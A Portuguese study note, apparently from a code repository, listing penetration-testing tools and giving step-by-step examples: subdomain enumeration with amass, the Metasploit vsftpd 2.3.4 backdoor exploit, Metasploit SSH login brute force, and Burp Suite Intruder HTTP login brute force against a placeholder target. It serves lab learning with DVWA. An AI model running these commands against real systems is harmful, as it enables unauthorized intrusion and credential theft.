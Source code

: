# Ferramentas usadas por hackers

## Sistema Operacional
- **Kali Linux**

## Ferramentas
- **BeEF**
- **Nmap**
- **Burp Suite**
- **Metasploit**
    - Máquina feita para ser invadida
    - Aplicações:
        - DVWA Security

---

# Exemplos de ataques

## Enumeração de Domínio

- **Ferramenta:** amass (terminal)
    - Tenta encontrar subdomínios
    - **Exemplo:**
      ```bash
      amass enum -d dominio.com
      ```

---

## Backdoor

Permite roubar sessões.

- **Ferramenta:** Zenmap (IDE)
    - Enumeração de portas
    - **Exemplo:**
      1. Preencher Target
      2. Profile: Quick scan plus

- **Ferramenta:** msfconsole
    - Banco de dados de vulnerabilidades conhecidas e exploits
    - **Exemplo:**
      ```bash
      msfconsole
      msf6> search vsftpd 2.3.4
      msf6> use exploit/unix/ftp/vsftpd_234_backdoor
      msf6 exploit(unix/ftp/vsftpd_234_backdoor)> show options
      msf6 exploit(unix/ftp/vsftpd_234_backdoor)> set RHOST {IP da máquina atacada}
      msf6 exploit(unix/ftp/vsftpd_234_backdoor)> run
      ```

---

## Brute Force (SSH)

- **Ferramenta:** msfconsole
    - **Exemplo:**
      ```bash
      msfconsole
      msf6> search ssh login
      msf6> use auxiliary/scanner/ssh/ssh_login
      msf6 auxiliary(scanner/ssh/ssh_login)> show options
      msf6 auxiliary(scanner/ssh/ssh_login)> set VERBOSE true
      msf6 auxiliary(scanner/ssh/ssh_login)> set RHOST {IP da máquina atacada}
      msf6 auxiliary(scanner/ssh/ssh_login)> set PASS_FILE /{caminho do arquivo}.txt
      msf6 auxiliary(scanner/ssh/ssh_login)> set USER_FILE /{caminho do arquivo}.txt
      msf6 auxiliary(scanner/ssh/ssh_login)> run
      msf6 auxiliary(scanner/ssh/ssh_login)> sessions -i {ID da sessão atacada}
      ```

---

## Brute Force (HTTP)

- **Ferramenta:** Burp Suite (IDE)

### Passos

1. **Interceptar tráfego através de um Proxy**
    - Configurar Proxy no Burp Suite
        - Host: `127.0.0.1`
        - Port: `8080`
    - Configurar Proxy no Navegador
        - Baixar extensão do Chromium: `SwitchyOmega`
        - Configurar 'System Proxy'
            - Host: `127.0.0.1`
            - Port: `8080`
2. Fazer a requisição de login no navegador
3. Enviar requisição interceptada para o Intruder

---

### Realizar requisições de ataque

- **Configurar o Intruder:**
    - **Target**
        - Host: `{IP da máquina atacada}`
        - Port: `80`
    - **Positions**
        - Definir tipo do ataque: *Cluster bomb*
    - **Payloads**
        - Configurar variáveis do payload
    - **Options**
        - Configurar *Grep - Match*

